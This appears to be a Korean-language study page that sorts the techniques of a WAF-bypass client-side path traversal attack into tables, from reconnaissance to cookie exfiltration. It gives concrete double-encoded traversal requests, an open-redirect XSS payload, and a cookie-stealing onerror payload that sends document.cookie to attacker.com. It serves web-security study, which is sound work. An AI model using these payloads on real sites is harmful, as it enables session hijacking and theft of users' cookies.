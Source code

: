 

## 공격 기법

### Reconnaissance

| 공격 기법               | 예시                                                                                                      | 설명                                                                                                                                                     | 출처 |
|-------------------------|-----------------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------|------|
| Decoding Level Analysis | `GET /viewpost/%2e%2e%2f` (1회 인코딩)<br>`GET /viewpost/%252e%252e%252f` (2회 인코딩)                    | 다양한 수준으로 인코딩된 경로 조작 페이로드를 전송하여, WAF와 애플리케이션이 각각 몇 번의 디코딩을 수행하는지 응답의 차이를 통해 파악한다.                | [1]  |

### Obfuscation

| 공격 기법                   | 예시                                       | 설명                                                                                                                                                   | 출처 |
|-----------------------------|--------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------|------|
| Directory Depth Obfuscation | `GET /viewpost/a/b/../../redirect...`      | WAF가 경로의 깊이(depth)를 검사하여 `../` 같은 음수 깊이를 차단할 때, `a/b/../../`와 같이 정상 디렉터리를 앞에 추가하여 WAF가 계산하는 최종 깊이를 0 이상으로 만들어 우회한다. | [1]  |

### Bypass

| 공격 기법                                                     | 예시                                              | 설명                                                                                                                                                                                     | 출처 |
|---------------------------------------------------------------|---------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|------|
| Multi-level Encoding Bypass (WAF level < App level)           | `GET /viewpost/..%252f..%252f...`                 | WAF의 디코딩 횟수보다 더 많이 페이로드를 인코딩한다. WAF는 디코딩 후에도 `..`를 인식하지 못해 통과시키지만, 더 많이 디코딩하는 애플리케이션은 이를 `../`로 해석하여 공격이 성공한다. | [1]  |
| Depth Obfuscation & Encoding Bypass (WAF level > App level)   | `GET /viewpost/a%252fa%252f..%252f..%252f...`     | WAF가 더 많이 디코딩하는 점을 역이용한다. WAF는 `a/a/../..`로 해석하여 깊이가 정상이므로 통과시키지만, 적게 디코딩하는 애플리케이션은 `a%2fa/../../`를 `../`로 해석하여 공격이 성공한다.        | [1]  |
| Browser-based Path Normalization Bypass (WAF level == App level) | `GET /viewpost/%252e%252e%2f%252e%252e%2f...`   | WAF와 앱이 모두 `%2e%2e/`로 디코딩하게 만든다. WAF는 이를 안전하다고 판단하지만, 브라우저의 fetch는 `%2e%2e/`를 `../`와 동일하게 처리(경로 정규화)하여 우회가 발생한다.                  | [1]  |

### Validation

| 공격 기법                     | 예시                                                                                   | 설명                                                                                                                                                                                                              | 출처 |
|-------------------------------|----------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|------|
| Redirect Payload Verification | `fetch("/api/posts/get_content/../../../redirect?u=https://attacker.com")`             | 공격자가 삽입한 페이로드가 브라우저와 애플리케이션의 디코딩을 거쳐, 최종적으로 의도한 경로(`redirect?u=...`)로 fetch 요청을 보내는지 개발자 도구 등을 통해 확인한다. 또한 자동 리디렉션 처리 여부를 확인해 후속 공격 가능성도 검증한다. | [1]  |

### Exploitation

| 공격 기법                         | 예시                                                                                             | 설명                                                                                                                                                                            | 출처 |
|-----------------------------------|--------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|------|
| Fetch-based XSS via Open Redirect | `GET /viewpost/%252e%252e%2f%252e%252e%2f%252e%252e%2fredirect%3fu=https:%2f%2fattacker.com` | 경로 조작으로 fetch가 공격자의 서버로 리디렉션되도록 유도한다. 공격자 서버가 반환한 악성 HTML이 페이지에 렌더링되면서 Cross‑Site Scripting(XSS)이 실행된다.                      | [1]  |

### Exfiltration

| 공격 기법                      | 예시                                                                                      | 설명                                                                                                                                                                   | 출처 |
|--------------------------------|-------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------|------|
| Cookie Theft via onerror Event | `<video><source onerror=location='//attacker.com/'+document.cookie>`                     | Exploitation을 통해 주입된 스크립트는 onerror 이벤트 핸들러를 사용하여, 피해자의 쿠키(`document.cookie`)를 location 객체를 통해 공격자의 서버로 전송시킨다.            | [A]  |

---

## 분류에 해당하는 문서
- [1] [Bypassing WAFs to Exploit CSPT Using Encoding Levels](https://matanber.com/blog/cspt-levels)

## 기타 참고 문헌
- [A] [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

